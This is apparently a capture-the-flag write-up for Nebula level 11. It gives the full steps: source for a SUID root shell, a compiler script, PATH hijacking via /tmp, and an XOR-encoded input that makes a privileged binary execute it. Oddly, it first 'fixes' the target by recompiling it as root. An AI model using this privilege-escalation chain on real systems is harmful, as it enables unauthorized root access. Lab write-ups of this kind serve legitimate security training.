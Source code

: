 
---
### 🔎 Challenge Description

> The binary at `/home/flag11/flag11` reads specially formatted input, processes it with XOR encoding, and then passes it to `system()`. However, the SetUID logic is broken, meaning **you must fix the binary to exploit it**.

**Login:** `level11 : level11`  
**Target Binary:** `/home/flag11/flag11`  
**Vulnerability:** Command injection through `stdin` and broken privilege preservation.

---

### 🧰 Phase 1: Fix the Broken Binary

The original binary drops privileges before calling `system()`. To fix this:

#### 🔧 Steps:

1. SSH into the Nebula VM:
    
    ```bash
    ssh level11@<target-ip>
    ```
    
2. Elevate to root:
    
    ```bash
    sudo -s
    # password: nebula
    ```
    
3. Create `fix.c` with the same source as the original binary and recompile:
    

```c
// fix.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void process(char *buffer, int length) {
    int i;
    char *args[] = { "/bin/bash", 0 };
    char *env[] = { 0 };

    for(i = 0; i < length; i++) {
        buffer[i] ^= 0x0f;
    }

    execve(buffer, args, env);
}

int main(int argc, char **argv) {
    char buffer[1024];
    int length;

    printf("Content-Length: ");
    scanf("%d\n", &length);

    if(length > sizeof(buffer))
        return 1;

    fread(buffer, length, 1, stdin);
    process(buffer, length);
    return 0;
}
```

4. Recompile and restore SetUID:
    

```bash
gcc -o /home/flag11/flag11 fix.c
chmod u+s /home/flag11/flag11
```

---

### 🧪 Phase 2: Understand the Input Format

The binary expects input like:

```bash
Content-Length: <len>\n<buffer>
```

It then XORs each byte of `<buffer>` with `0x0F`, and passes the result to `execve()`.

🧠 So if you want to execute `/tmp/m`, XOR it first:

```bash
python3 -c 'print("".join([chr(ord(c)^0x0f) for c in "/tmp/m"]))'
```

---

### ⚔️ Phase 3: The Exploit Plan

We’ll abuse this flaw to execute a malicious script that gives us root access.

#### 🧱 Step 1: Create a SUID Shell Generator

```c
// /home/level11/shell.c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    setresuid(geteuid(), geteuid(), geteuid());
    setresgid(getegid(), getegid(), getegid());
    system("/bin/bash");
    return 0;
}
```

#### 🔧 Step 2: Write the Compiler Script

```bash
# /home/level11/compiler.sh
#!/bin/sh
gcc /home/level11/shell.c -o /home/level11/shell
chmod 4755 /home/level11/shell
```

#### 🔗 Step 3: Symbolic Link and PATH Setup

```bash
ln -s /home/level11/compiler.sh /tmp/m
export PATH=/tmp:$PATH
```

#### 🚀 Step 4: Trigger the Exploit

Now execute:

```bash
echo -ne "Content-Length: 6\n$(python3 -c 'print("".join([chr(ord(c)^0x0f) for c in "/tmp/m"]))')" | /home/flag11/flag11
```

The binary will decode the buffer into `/tmp/m`, execute it, and compile your **SUID root shell**.

---

### 🏁 Final Step: Root Shell Achieved

```bash
/home/level11/shell
```

✅ Output:

```bash
# whoami
root
```

---

### 📚 Lessons Learned

This level combines two powerful ideas:

- **Command injection via XOR-ed stdin**
    
- **Privilege restoration and custom SetUID shell compilation**
    

🧠 **Security Insight:**

> Always validate decoded user input before execution, and avoid dynamically calling `execve()` or `system()` with untrusted sources — especially in privileged binaries.

---
